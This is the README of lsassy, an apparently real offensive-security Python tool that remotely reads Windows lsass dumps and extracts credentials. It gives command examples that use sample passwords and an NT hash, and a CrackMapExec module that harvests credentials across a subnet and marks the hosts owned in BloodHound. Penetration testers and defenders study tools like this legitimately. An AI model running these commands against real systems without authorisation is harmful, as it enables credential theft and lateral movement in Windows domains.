 # lsassy

[![PyPI version](https://badge.fury.io/py/lsassy.svg)](https://badge.fury.io/py/lsassy)

Python library to remotely parse lsass dump and extract credentials.
This library uses [impacket](https://github.com/SecureAuthCorp/impacket) projects to remotely read necessary bytes in lsass dump and [pypykatz](https://github.com/skelsec/pypykatz) to extract credentials.

![CME Module example](/assets/cme_lsassy.gif)

## Requirements

* Python >= 3.6
* [pypykatz](https://github.com/skelsec/pypykatz) >= 0.3.0
* [impacket](https://github.com/SecureAuthCorp/impacket)

## Basic Usage

```
lsassy [<domain>/]<user>[:<password>]@<target>:/share_name/path/to/lsass.dmp [--hashes [LM:]NT]
```

## CrackMapExec module

I wrote a CrackMapExec module that uses **lsassy** to extract credentials on compromised hosts

CrackMapExec module is in `cme` folder : [CME Module](/cme/)

## Examples

### lsassy

```
lsassy ADSEC.LOCAL/jsnow:Winter_is_coming_\!@dc01.adsec.local:/C$/Windows/Temp/lsass.dmp

lsassy Administrateur:952c28bd2fd728898411b301475009b7@desktop01.adsec.local:/ADMIN$/lsass.dmp
```

### CME Module

```
crackmapexec smb 10.0.0.0/24 -d adsec.local -u Administrator -p Passw0rd -M lsassy -o BLOODHOUND=True NEO4JPASS=bloodhound```
```

## Installing

### From pip

```
python3.7 -m pip install lsassy
```

### From sources

```
python3.7 setup.py install
```

### ChangeLog

```
v0.2.0
------
* Add BloodHound option to CME module (-o BLOODHOUND=True)
    - Set compromised targets as "owned" in BloodHound
    - Check if compromised users have at least one path to domain admin
* Custom parsing (json, grep, pretty [default])
* New --hashes option to lsassy


v0.1.1
------
* Include CME module in repository
* Add credentials to CME database


v0.1.0
------
First release
```

## Acknowledgments

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [SkelSec](http://twitter.com/skelsec) for Pypykatz, but also for his patience and help
* [mpgn](https://twitter.com/mpgn_x64) for his help and ideas
